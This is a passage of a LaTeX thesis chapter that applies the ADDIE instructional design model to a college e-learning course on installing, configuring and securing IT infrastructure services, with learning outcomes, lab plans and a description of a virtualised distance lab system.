 
\includegraphics[width=0.6\textwidth]{addie_model.pdf}
 \rule{35em}{0.5pt} 
 \caption{The ADDIE model} 
 \label{figure:the addie model} 
\end{figure}

Firstly, the goal of the analysis phase is for investigation of the gap between goal and
existing situation. Therefore, this phase investigates instructional goals, current situation, learner, objectives \citep{chen2007learning, website:addie}.

Secondly, the design phase focuses following areas; assessments design, learning content, learning strategies and course format \citep{chen2007learning, website:addie}.


Thirdly, the work of development includes creating of course materials, choosing methodology and technologies, testing of material using run-through with small group. \citep{OppeArenduskeskus2010, website:addie, chen2007learning}.


Fourthly, the implementation stage is describes implementing the above work of three previous steps and gives possibility to evaluate full course in evaluation phase \citep{chen2007learning, website:addie}.


Finally, the evaluation phase is for assessing of the learning effect through evaluation. However the evaluation process takes place in every stage as seen in illustration~\ref{figure:the addie model} the final evaluation focuses whole course and focuses to the feedback from students and lecturers and output of this phase is valuable for next courses \citep{OppeArenduskeskus2010, website:addie}.

\section{Analysis of the e-learning course}
According to \gls{ADDIE} model the analysis stage establishes goals for the course and evaluation of the current situation and strategy for implementing goals followed by analysis of the learners and the content of the course \citep{website:addie}

The analysis phase of the \gls{ADDIE} model contains four sub-phases \citep{website:addie}.
\begin{enumerate}
\item Instructional Goals -- main objective plan for new course
\item Instructional Analysis -- analysis of the current situation
\item Learner Analysis -- target group properties like previous knowledge about the field
\item Learning Outcomes -- list of knowledges and skills to achieve instructional goals
\end{enumerate}


\subsection{Instructional Goals}
The Instructional Goals and learning objectives should established before designing new course and they give answer to the student questions: Why should I study this topic and what I learn during this and how I will evaluated? \citep{website:addie}


The instructional goals for new course were established using interviews with \gls{EISA} and several companies. Therefore where listed technologies needed to know by system administrators. Moreover, the additional input fore establishing goals come form analysis of the current curriculum.

The list of discussed topics is too big to give full list even in appendices. After listing all possible topic all items got priorities. However, the list of topics was still too long to cover it in three year college. Although first prioritizing working group divided topics to smaller groups and divided it into three areas. First, topics what should cover private companies providing product based training. Second, topics what are not suitable for three year education and cant be efficiently integrated into study program like subjects already given in \gls{TUT} or in \gls{UT}. Third, the topics what are suitable for \gls{EITC}

The instructional goals for the e-learning course: firstly, give an introduction of IT infrastructure services, secondly, give skills and knowledge for installing and configuring of IT infrastructure services, thirdly give knowledge and skills for protecting IT infrastructure services. Moreover, give knowledge and skills for documenting IT infrastructure services.

\subsection{Instructional Analysis}
The Instructional Analysis should answer the question: What steps are necessary to achieve  established instructional goals and what tools are needed? \citep{website:addie}.

To achieve this goal the study focuses on hands-on practical classes combined with lecturers and seminars. Moreover,to achieve maximum impact of the course, all content and methodology are designed to be suitable in classroom learning and using e-learning or blended learning which is combination of e-learning and classroom activities. Moreover, materials are designed to support self-study in e-learning form.

The name of the new course: Securing IT Infrastructure Services. However the course is not yet included into curricula the subject program will be discussed on board in June 2013 and in case positive feedback the new course will be held on Spring 2014.

New e-learning course should be given on second course at spring semester preluded with course I233 - Operating System Administration\footnote{Curriculum subject I233 \url{https://itcollege.ois.ee/en/curriculum-subject/view?curriculum_id=2&subject_id=130&year=2012}}. However, the continuous education students should pass pre-sessional entry course which covers basics of GNU/Linux course as seen in Appendix~\ref{Preliminary course - dpkg based GNU/Linux} or pass the entry theory test with questions on Table~\ref{tab:preliminary_test} on page \pageref{tab:preliminary_test} and a practical test listed in Table~\ref{tab:preliminary_practical_test} on page~\pageref{tab:preliminary_practical_test}.

\subsubsection{Analysing of the requirements, scope and restrictions for e-course}
During several curricula development seminars author establishes requirements for this particular e-course according to input from partners like \gls{EISA}, students feedback, graduate students feedback and curricula analysis from other higher educational institutes and private training companies. 

Because of main target groups are \gls{EITC} students and IT system administrators who need knowledge and skills for defending their system the course must developed according to their needs and reckon with theirs previous background and knowledge. However, for students it means pre-requirement course list but for system administrators it means preliminary course if they need it. Therefore, the preliminary tests for entering the course are needed to gain required skills with GNU/Linux and if possible also include BSD family in basic level because OpenBSD is used in \gls{EISA} project S4A.
The curricula development and authoring a learning materials are funded by EU therefore they  published using licensing terms allows to use materials for teaching the subject and also derive new work if license stays the same.
Today EITC hands-on labs on GNU/Linux are done using one or two virtual machines but to simulate more realistic situations in laboratory scenarios the number of supportive virtual machines should be more. For example to perform lab “configuring e-mail service” a student needs fours virtual machines. One client, MTA - configured by student, DNS -  configured by student, Other preconfigured MTA and pre configured DNS. For conclusion to provide more realistic lab scenario some pre-configured virtual machines are needed for each lab type or even for each student and this is hard setup for student itself.

Final main requirements are following:
\begin{enumerate}[label=Requirement \arabic*.,leftmargin=*]
  \item Developed e-course must be usable for \gls{EITC} students and also in continuous education field for system administrators
  \item Course must contain pre-sessional entry course to GNU/Linux and should cover basics  of the OpenBSD/FreeBSD systems
  \item Course should contains main aspects of system administration and focus to the defence of the systems
  \item Developed course materials should released using Creative Commons \gls{CC-BY-SA} license
  \item Laboratory work should be as realistic as possible including needed infrastructure to run complex infrastructure services. Therefore required solution for set-up hands-on environment in class or home.
\end{enumerate}

Choosing technical tools, establishing learning outcomes and authoring learning materials will follow those requirements and instructional goals.

\subsection{Learner analysis}


The analysis of the target group provided valuable input to the course development because starting point of the course and difficulty level of the hands-on labs depends on the target group level and course content should fill the cap between knowledge/skills of the target group and instructional goals. Therefore, analysis of the target group is needed to design efficient e-learning course.

 According to problem analysis the target group can divided to two separate groups, the students who do not have long working experience and system administrators who have working experience in particular field but often do not have degree or diploma in \gls{ICT} field or they are graduated several years ago.

The first target group are second and third years students who already mastered basics of operating systems, GNU/Linux administration and Windows administration. The second target group are system administrators with different background because of deep specializing in enterprises. Common relevant (on course development point of view)  properties are described in Table~\ref{tab:targetgroup}. However, the ethnic, gender and age is out of investigation because irrelevance for designing this course.

\begin{table}[h]
\centering
\caption{The target group properties}

\begin{tabular}{|p{4cm}|p{5cm}|p{5cm}|}
\hline 
\color{blue}
Property & \color{blue} Students & \color{blue} System Administrators \\ 
\hline 
Background & No or few work experience in field & Experience on one or more specialized field \\ 
\hline 
Motivation & To get diploma and valuable work also knowledge/skills needed to protect \gls{ICT} systems & To get knowledge and skills to protect \gls{ICT} systems \\ 
\hline 
Time and possibilities & possible to do home work/reading & in practice can not do homework/readings efficiently  \\ 
\hline 
Previous knowledge & From \gls{EITC} (GNU/Linux, Windows)  &  heterogeneous, some people are very skilled and some are very weak on field. Most of people do not have proper GNU/Linux experience.  \\ 
\hline 
Previous study experience & Good & Lesser \\ 
\hline 
Study Stile & Student's style (everything done little before deadlines) & All study should take place during contact hours  \\ 
\hline 
How homogeneous the group are (knowledge and skills) & More flat & heterogeneous \\ 
\hline 
Previous experience in GNU/Linux & Enough to start the course & Poor (only 10\%) passed the theory test~\ref{Preliminary Tests}  \\ 
\hline 
\end{tabular} 

\label{tab:targetgroup}
\end{table}
 
Is possible that studying cyber security affects student behaviour for example using learned methodologies to attack live systems. Therefore, special disclaimer need to be added to labs that have also offensive aspects.
 
For conclusion to the analysis of target group's can stated that course material should be suitable for both groups. First group, the students have advantage because having sufficient time for home readings. However the second group has advantage from previous work experience. Second group's problem is insufficient knowledge about GNU/Linux system and separate short auxiliary course about basic command line is needed before entering to the main course. However some system administrators do not need those course and need for additional course will decided using entry test developed during this thesis.


\subsection{Learning Outcomes}

By establishing learning outcomes the goals of the course should elaborate on and get more specific form. Therefore, they should give impression what to expect from course to the student and composed  \citep[p.~7]{OppeArenduskeskus2010}.

The learning outcomes with threshold criteria described in Table~\ref{tab:learning_outcomes}.

% Students are able to demonstrate common attacks against web applications and explain attacks against \gls{DNS} (or using it for attack) as well able to explain terms \gls{VPN}, \gls{SAN}, \gls{NAS}, \gls{IDS}, \gls{IPS}. Moreover the students able to document installed services.

\begin{table}[h]
\centering
\caption{Learning Outcomes}
{ \small
\begin{tabular}{|p{7cm}|p{7cm}|}

\hline 
\color{blue} Learning Outcome &\color{blue}  Threshold criteria -- minimal level required to pass \\ 
\hline 

\hline 
After completing the e-learning course all students will be able to install, configure and secure  IT infrastructure services as \gls{NTP}, \gls{DNS}, \gls{DHCP}, web servers, firewalls, file servers and authentication services. & Participant installs and configures services and explain configuration choices done during the practical task according to lab scenario.\\ 
\hline 
Student is able to explain basic terms of \gls{NTP}, \gls{DNS}, \gls{DHCP}, web servers, firewalls, file servers and authentication services. 
& 

Student is able to explain basic concept of \gls{NTP}, \gls{DNS}, \gls{DHCP}, web servers and  basic terminology of IT infrastructure services.
\\ 
\hline 
Student are able to secure web and file services and \gls{NTP}, \gls{DNS}, \gls{DHCP} servers.

& 
Student installs, configures and secures services according lab guide.
\\ 
\hline 
Student are able to test simpler attacks against web services and measure the successiveness of the attack.

& Student demonstrates attacks against web services and explains the result and impact of each attack \\ 
\hline 
Student are able to install central authentication services using prepared guide.
& 
Student configures central authentication system (LDAP, Kerberos, SAMBA4) and client machine to authenticate using central system
\\
\hline 
Student are able to explain following IT infrastructure subjects as: VPN, virtualization, SQL, SAN/NAS/CAS, monitoring, logging, IDS and IPS
& 
Student are able to define and explain IT infrastructure terminology.
\\ 

\hline 
Student are able to document IT infrastructure service according to documentation instruction guide

& 

Student are able do compose documentation of one service according to documentation guidelines. 
\\ 
\hline 

\end{tabular} 
}
\label{tab:learning_outcomes}
\end{table}

Designed learning outcomes do not describe every lab and theirs objectives. However, the good learning material needs learning objectives that support the achieve the established learning outcomes. However, sometimes learning outcomes and learning objects defined as the same, but in this thesis the objectives are more detailed then learning outcomes \citep{website:objective_vs_outcome}.

\section{Evaluation of Analysis stage}

Accordingly to the \gls{ADDIE} model the evaluation for each stage should performed according to following aspectsseen in Table~\ref{tab:evoluation_analysis} \citep[p.~11]{OppeArenduskeskus2010}. Therefore the evaluation of analysis phase done by self-assessment and peer-assessment methodology according to Estonian e-learning course quality guide assessment matrix \citep{website:quality_mx}.

Evaluation of the analysis phase given in Table~\ref{tab:evoluation_analysis} and it is in questionnaire format with grade scale: One, the quality requirement is not met. Two, the quality requirement is partly met. Three, the quality requirement is mostly met. Four, the quality requirement is fully met.

\begin{table}[h]
\centering
\caption{The evaluation of the analysis stage }
{ \small 
\begin{tabular}{|p{6cm}|p{2cm}|p{5cm}|}
\hline 
\color{blue} Evoluation question & \color{blue} Result [1..4] & \color{blue} Comments and references \\ 
\hline
E-learning course corresponds to needs and capabilities of the target group? 
& 4  &  preliminary course fills the cap (Self-assessment)\\ 
\hline 
Does course have institutional goal and learning outcomes established a point of student view?
& 4 & Self-assessment  \\ 
\hline 
Does e-learning suits the course and are properly explained?
& 2 & Suits but not specially explained Self-assessment \\ 
\hline
Does a course content bind to learning outcomes and reckon with context of e-learning?
& 3 & Course content is releated with learning outcomes but not specially for e-learning Self-assessment \\ 
\hline 
\end{tabular} 
}
\label{tab:evoluation_analysis}
\end{table}

Although, the this was self-assessment and peer-assessment the Steering Committee of Curricula will assess the Subject Program seen in Appendix~\ref{appendix:SubjecProgram} on summer 2013.

%{\color{red} 
%Kas kursus vastab sihtrühma vajadustele ja võimalustele?
%
%Kas kursusel on eesmärk ja õppijakeskselt sõnastatud õpiväljundid?
%
%Kas e-õppe vormi kasutamine kursusel on põhjendatud?
%
%Kas kursuse sisu vastab õpiväljunditega ja arvestab e-õppe kontekstiga?
%}\citep[p.~11]{OppeArenduskeskus2010}


\chapter{Solution}
\label{solution}
\lettrine[lraise=0.1, nindent=0em, slope=-.5em]{\color{Violet}T}{he} solution chapter is divided into four parts. First, the design phase uses information gathered from analysis phase of the \gls{ADDIE} process and the main goals are identifying  a learning objectives, compose tests, choose course format, and planning of the learning process~\citep{website:design_phase_ADDIE}. Second, the technical implementation of the e-learning course is usually a sub-part of the previous part a design process of the \gls{ADDIE} model. However, the section focusing to the technical considerations, deserve separate part according to context of this e-learning course because its importance and capacity. Third, a development phase describes authoring of the learning material. Fourth, the implementation phase covers piloting of the course, where each part of the course are run-through with particular students/trainers to get feedback about timing, content and ~\citep{website:design_phase_ADDIE}.



 
\section{Design and Planning of learning process}
The Design phase contains four steps: First, design of the learning objectives; Second, design the assessments for each objective. Third, choose a course format. Fourth, create an instructional strategy~\citep{website:design_phase_ADDIE}. However, in this thesis, the tests are designed together with the learning objectives to simplify reading the topics.

\subsection{Design of the course content and learning objectives}

In the analysis phase a learning outcomes were established. For design an adequate course content two aspects are required, learning objectives and assessment tests. Likewise in software development field the tests should be designed first to ensure creation of consistent learning materials and labs. Therefore all learning objectives are given with evaluation methods and values.  

The terms and topics used in assessment should stay on level the students should know at the end of the lab and derived from learning objectives established in analysis phase.

Developed tests and materials of the course will be listed in course syllabus~\ref{Course Syllabus}.

\subsubsection{Pre-requirements courses}

During the analysis of the target group the need for preliminary course was decided to homogenize a knowledge and a skill level of the participants.

The objectives and assessments for preliminary course:
\begin{itemize}
\item Student are able to work with command line using GNU/Linux and are able: working with files, manage software, manage disks and partitions, manage users and groups, configure networks and user's login session. Minimal level for pass is to gain more then 50\% of randomly chosen test version, included in Appendix~\ref{Preliminary Tests} in Table~\ref{tab:preliminary_practical_test}
\item Student are able to explain basic terminology of operating systems sush as: kernel, GUI, shell, Virtual memory, authentication, authorization, RAM, cache, buffer, latency, throughput, file system, process, thread, password hash, DAC, MAC, RBAC, command parameter, command flag, file system hierarchy, environment variable). Minimal level to pass is gather more then 51\% of closed book test like in sample in Appendix~\ref{Preliminary Tests}
\item Student are able to configure a network of the GNU/Linux and explain terms like gateway, netmask, IP address, port, IP alias, DNS servers. Minimal level to pass is successful configuring network for lab machines.
\item Student is able to read/modify and create simpler BASH, Python and PowerShell scripts. Minimal level of pass is create script with all common language construction in one particular language. Powershell scripting is included because furtherer labs contains also integration labs with Active Directory, SAMBA4, GNU/Linux servers and workstations and Windows workstations.
\end{itemize}

According to previous objectives six practical classes are needed:\footnote{All times are given in academic hours or days which equal 8 academic hours.}

\begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
\item Operating system basics (one day)
\item Basic networking IPv4/IPv6, TCP/IP (one day)
\item GNU/Linux basics (and OpenBSD/FreeBSD basics) (16h) as describbed in Appendix~\ref{Preliminary course - dpkg based GNU/Linux} on page~\pageref{Preliminary course - dpkg based GNU/Linux}
\item Scripting in BASH (2 days)
\item Scripting in Python (1.5 days)
\item Scripting in PowerShell (1.5 days)
\end{enumerate}
After implementing the course exact load is known numbers will be arranged.

\subsubsection{Root Services}
In this particular case the term root services are described as \gls{NTP}, \gls{DNS}, \gls{DHCP} services.
After finishing this lab block the student are able to configure root services and use those services in furtherer labs.
The objectives and assessments for Root Services lab:
\begin{itemize}
\item After finishing this lab student is able to install \gls{NTP} service on the server and on the client computer and configure client to use internal server (pool) and server to use upstream \gls{NTP} service and fall-back services. Minimal level to pass: Services are configured, and student demonstrates debug skills with different tools and user explains basic terms and (pool, stratum, delay , offset, jitter, drift)
\item After finishing this lab student is able to install \gls{DNS} service and configure clients for new server. Minimally, students are able to configure zones, reverse zones, master -- slave replica, forwarding, different type of records (like MX, A, CNAME, TXT for SPF, PTR) and use basic management utilities to do following tasks: reload zone, flush name, flush cache, add records dynamically, freeze and thaw zones). Configured service should able to do recursive quires for one particular subnet and student are able to explain what DNS attacks are common in Internet and what is an Open Resolver. Student tests nameserver of the \gls{EITC} and explains what is wrong with that.
\item After finishing this lab student is able to install \gls{DHCP} server and configure hosts using this service. Minimal level for pass: Student installs and configures service what gives networking configuration to client machine from range or using hardware address. Service updates \gls{DNS} records using shared key (Mandatory Access Control must not disabled for pass)
\end{itemize}
According to previous objectives three practical classes are needed:
\begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
  	\item NTP (4h)
  	\item DNS (2.5 days)
  	\item DHCP (one day)
\end{enumerate}

\subsubsection{Web and File services}
Configuring and securing web servers is essential skill required from system administrators. Therefore, web server installation, configuration and hardening are covered in this block.

The learning objectives and assessments for Web and File services:
\begin{itemize}
\item After completing the web and file services block student is able to install web server and web application with database and several virtual hosts and configure \gls{TLS}. Minimal level for passing: Installed web server with two virtual hosts accepting \gls{HTTP} and \gls{HTTPS} connections. Configured IP aliases for \gls{HTTPS} and/or \gls{SNI}.
\item Student is able to use caching technologies to protect web application against simpler \gls{DOS} attacks. Student configures web service and demonstrates that installed application can be easily taken offline using a simple load generator. Thereafter, the student configures web application accelerator as mitigation method against the  \gls{DOS} attack. Minimal level: Student configures proper caching and demonstrates that web application survives same attack.
\item Student are able to install different application firewalls as \gls{SQL} firewall and web application firewall. Minimal level: Student demonstrates that different types of attacks are possible and successful against the vulnerable web application. Student installs \gls{SQL} firewall and demonstrates that basic \gls{SQLi} attacks are blocked. Student demonstrates that several web application attacks are still possible after installing the \gls{SQL} firewall as reflected \gls{XSS} and stored \gls{XSS}, command injection and \gls{CSRF}. Student installs application firewall before web application and demonstrates that previously succeeded attacks (at least \gls{XSS}) are stopped.
\item Student is capable to install file server and configure shares, permissions, groups. Criteria: Student installs the service and configures two shares and group based permissions for each share. Student configures client machine to mount one share when user logs on and other share should mounted on boot.
\end{itemize}


According to previous objectives four practical classes are needed:
\begin{enumerate}[label=LAB \arabic*.,leftmargin=*]
   \item Web server basics - installation and configuring web server (4h)
  	\item Web server security - Protecting Web Application Against (D)DOS Attacks (6h)
  	\item Web server security - securing vulnerable web application using application firewalls (6h)
  	\item Fileserver installation and configuration (4h)
\end{enumerate}


\subsection{Choosing the course format}

For developing e-learning courses a choosing course format have a big influences to all participants \citep[p.14]{OppeArenduskeskus2010}. 

Common course delivery formats used in e-learning and blended learning (combined form of instruction-led and e-learning) used in \gls{EITC} are: 
\begin{itemize}
\item Asynchronous e-learning - \gls{SIS}, wikis, \gls{LMS}'s, forums, blogs and other collaboration systems.
\item Synchronous e-learning - virtual distance laboratories, remote access for some servers, Skype and other online communications.
\item Instructor-led lessons - practical classes
\item Self-study - homework, reading books and other resources.
\end{itemize}

For this course several methods are used in different cases. First, a self-study are possible because all materials are available from web (except some video materials) in most cases all virtual machines are also publicly downloadable and participants may self-study. Second, combining self-study and instruction-led lessons are used for continuous education groups. Third, a asynchronous e-learning is common and may combined with instruction-led session.

For this e-learning course students can choose combination of asynchronous e-learning, instruction-led lessons (maximum half of the course) or self-study using lecture recordings.

In this particular e-course video lectures are not used but lecture video recordings are available. Also collaboration are preferred and students need to prepare documentation in wiki format and review others work and also give a grade because this method motivates student to produce better documentation and evaluation skills.




\subsection{Instructional strategy}
Instructional strategy for course focuses of guaranteeing learning outcomes by motivation students using proper content and activities planning.


\subsubsection{Pre-instructional activities}
The main goal of pre-instructional activities is motivate the students by explaining to the students why topic started must be covered and what student will be able to do after practical class. Thereafter, present learning objectives and assessment requirements and pre-requirements for the class. However, the minimal requirement level are presented and some students are interested for higher challenges for them extra quests, exercisers are presented as-well.


\subsubsection{Content Presentation}
Most today’s students are bored when receiving only theoretical lecture. For example, 1/2 of students do not have sufficient knowledge to fully understood the topic, and 1/4 of the students know already the aspects given and only 1/4 of the students are in the suitable level.  However, the exact numbers varies but is possible, that similar situation occurs often. Therefore, practical classes and lectures are combined and all taking place in computer classes. Every student should take 15-30 minute long theoretical block followed with practical activities. In case of e-learning students can browse video recordings and do their labs where suitable for them. Moreover, the content presentation should contain a principle author would like to call a \emph{Command Dojo}, where all participants doing the same exercise with same goal with help of the lectures as master with classroom or using screen-cast. The name of the method is derived from \gls{Coding Dojo} in software development~\footnote{A Coding Dojo is a meeting where a bunch of coders get together to work on a programming challenge \url{http://codingdojo.org/cgi-bin/wiki.pl?WhatIsCodingDojo}}.
After completing exercise or running out of time the new goal is given and to demonstrate learned skills the same objective in modifications are given for students and this will assessed by master. The reason behind this solution is simple: Students need good guide to follow and learn, but to show achieved outcomes student needs to configure services without blindly coping and pasting from lab material.

\subsubsection{Learner's feedback and assessment}
After every class, lecture should gather feedback about objectives, theoretical parts, labs and assessments because the course is very intensive and when more then 1/3 students can not follow due some problems then next block will fail for those students because they are linked by topic.
Is also possible that for valuable feedback are sufficient to ask from students how they feel about the course.

\subsubsection{Follow-through activities}
For explaining some situation the active discussions are needed (possible discussion topics are shown in lab materials as questions for the students) as seen in lab material highlighted with blue box with caption Discussion:
\begin{Verbatim}[frame=single,
label=Discussion,framesep=2mm,rulecolor=\color{blue},commandchars=\\\{\}]
Why You can not login into server?
Look at the server console. What is the OOM? What is the OOM killer?
\end{Verbatim}
In case of distance study and self study the discussions should being held using course Skype list, because of suitability for group discussion as successfully tested on bigger courses~\citep{website:kakk_teistmoodi_e}. For conclude the discussion the lecturer must give feedback for each discussion topic using same channel or course e-mail list (In \gls{EITC} lecturer can send e-mail messages to all students participating this particular course).



\subsection{Pedagogical view of the e-course}
Different Pedagogical strategies can be used during learning process as \citep{OppeArenduskeskus2010}
\begin{enumerate}
\item problem based learning -- demands analysis approach from student by solving cases based on scenarios derived from real situations
\item collaboration based learning -- based on group-work and cooperation
\item community based learning -- collaboration is community based, helps students to learn from each-other
\end{enumerate}

In case of this e-learning course all three aspects are used and combined.
For labs a problem based learning are used. For documenting a installed service the collaboration based learning are used and course wiki aggregates this information. For review of wiki articles a community based learning are used. However, for continuous education actively used only problem based learning because of intensive nature of the course when no extra time left for homework between contact classes.

\subsection{Planning grading/assessment techniques}
The assessment is used for two proposes: Firstly, ensure achievement of the learning outcomes. Secondly, as a form of the feedback for the student. By planning assessment for an e-learning course the common choises are following: self-assessment, computer aided assessment, tutor assessment, peer assessment. ~\citep{OppeArenduskeskus2010}

In this course self-assessment are used only for feedback and for entering the course. For example, if system administrator wants to enter the Web and File service course a self-test needed to be done to ensure a presence of the knowledge in level needed by the course. However the computer assessment is easier and less time consuming compared to tutor assessment it insufficient to guarantee the learning outcomes of the student. 

The Computer assessment are used only for guiding and giving feedback to the participant. For example: In case of insecure web application lab the student can execute script that tests application vulnerability with python script performing \gls{SQLi} and test if its filtered by \gls{SQL} firewall or not. The script itself is readable for user and in case of this particular script, it is written by other students as a homework in preliminary scripting course.


The tutor assessment are used to grade the students lab performance and this is time consuming because every student defends their lab solution by reconfiguring services and explaining the architecture and configuration of the solution.

Peer assessment are used in case of documentation grading. Documentation points are given by peer students but tutor assessment are used to grade the graders.

Proper grading are one way to motivate students. Moreover, the competition moment when lab performance are seen by other student gives extra motivation for skilled students but may demotivate weaker ones~\citep{KasakKaur}. In author opinion the competition moment combined with offensive \gls{CTF} type course gives motivation impulse for most of the students. However, this course focused on defence of the systems and the motivation problem is still not solved but possible solution is in implementation.

The idea for motivation system for new course is to implement scoreboard and reward system based on completed and graded labs. For example: Student secures an apache web server using mod security rules the badge are added to student's profile in lab system. Steel coloured badge with apache icon for using application firewall and protecting the system. Silver coloured shield badge when proper report is submitted to "authorities" when, what happened and what student did for mitigation. Gold badge for writing new rules or new scripts or new log parsers to help administrator to deal with the problem. Actually the realization of this system will be a future work in next iteration of the course.

According to \gls{ADDIE} model the next step should be "Choosing technological tools" as audio/video programs and \gls{LMS} system choices, file formats, media authoring programs and choice of collaboration environments~\citep{OppeArenduskeskus2010}. However, this course needs more detailed choices to cover learning objectives and needs for virtualised environment. Therefore, the choices are described in section~\ref{Technical implementation of the e-learning course} as an separate section. 

\section{Technical implementation of the e-learning course}
\label{Technical implementation of the e-learning course}

The general aspects for consideration for choosing technical tools and systems for e-learning course are following: availability of e-learning course, Usability of e-learning course, student motivation, adaptivity, suitability for collaboration, standard compliance~\citep{OppeArenduskeskus2010}:

Technological tools are needed for following activities: 
\begin{itemize}
\item Sharing study materials
\item Collaboration between students and lectures and communication tools
\item Virtualization environment tools
\item Tools for implementing lab scenarios -- web applications, services, testing programs
\end{itemize}

For sharing study materials the \gls{EITC} wiki~\footnote{\gls{EITC} wiki - \url{https://wiki.itcollege.ee/}} are used because it is public accessible and students can add and edit materials by fixing errors in guides and grading process encourages them to share their knowledge. Study materials are stored in wiki, pdf form. Some tests and temporal assignments are stored into google docs and made available using shared link.

For collaboration also wiki is used to give feedback for student group-works in talk section of the work. All homework are publicly accessible and also reviews. Students even collected all questions asked in defence of the lab and published it. E-mail and Skype are used for usual communication and course forum is implemented in future. Moreover, the configuration files and source files for scripts and learning materials are stored in to public \gls{git} repositories.

Virtualization environments are used for all labs. Several virtualization solutions can be used in this e-learning course. For availability the virtual machines are distributed as Open Virtualization Format (\gls{OVA}) files and are usable in different environments~\footnote{ Distributed Management Task Force (\gls{DMTF}) OVF - \url{http://www.dmtf.org/standards/ovf}}.

Availability of the lab in e-learning form should give access for lab infrastructure from outside of the \gls{EITC} computer classes. Therefore a environment of distance study are implemented in \gls{EITC} and constantly developed to accept needs for new e-learning courses. This course initiated new developments for this environment what is described in next subsection.
Author of this thesis are an architect of the distance study environment and also back- end programmer. In next section the brief overview of the system are given and described new parts of the system developed to support this e-learning course.

\subsection{The Environment of Distance Study}
\label{The Environment of Distance Study}
The motivation to develop environment of distance study was initiated by need to increase amount of practical hands-on work in \gls{EITC}. However, the virtualization used in computer classes to teach system administration subjects has limitations the student was not able to continue theirs work after official schedule because virtual machines are stored to local disks of the classroom computer. Moreover, the student was able to use only the same machine like last class and changing classrooms or computers was not possible. However, some students preferred their own laptops for running virtual machines it is hard for labs with several virtual machines because of the requirements for hardware. Moreover, some labs need access to special infrastructure in \gls{EITC} internal LAN, and laptops can not used in this case.

Therefore, the development of the environment of distance study were initiated.

The environment allows students start virtual labs with pre-configured virtual machines. 
\subsubsection{Technical implementation}
For virtualization \gls{API} the libvirt are used because of support for common virtualization hypervisors like \gls{KVM}, Xen, VmWare ESX, LXC and others~\footnote{libvirt - The virtualization API \url{http://libvirt.org/}}. For web interface the Ruby on Rails framework was used. The \gls{LDAP} is used for authentication and Ubuntu Server 12.04 LTS 64bit for host operating system. The architecture of distance lab system is in Figure~\ref{fig:Architecture of Distance Laboratory}.

\begin{figure}[ht]
\centering

\includegraphics[width=0.8\textwidth]{architecture.png}
\caption{Architecture of Distance Laboratory}
\label{fig:Architecture of Distance Laboratory}
\end{figure}

For supporting new ideas from this thesis the following development has to be done: Implementing scoring table with virtual reward badges, new network configuration infrastructure to support several internal networks to isolate \gls{DOS} attacks generated by students and also the \gls{DHCP} traffic, better feedback for defensive labs allowing automatically test the student achievements in protection of the system.
The development is not finished except the network configuration part because lack of the resources. Most of the programming work was done by students as diploma projects and supervised by author of this thesis.
The source code of the distance laboratory system is publicly available on \gls{git} repository~\footnote{The distance laboratory system i-tee -- \url{https://github.com/magavdraakon/i-tee}}
The system itself is accessible using \gls{EITC} account~\footnote{The i-tee distance laboratory system -- \url{https://elab.itcollege.ee/}}
%\subsubsection{New developments for distance study environment}
%
%\begin{itemize}
%	\item normal traffic generator
%	\item malicious traffic generator
%	\item availability monitor (for grading)
%\end{itemize}

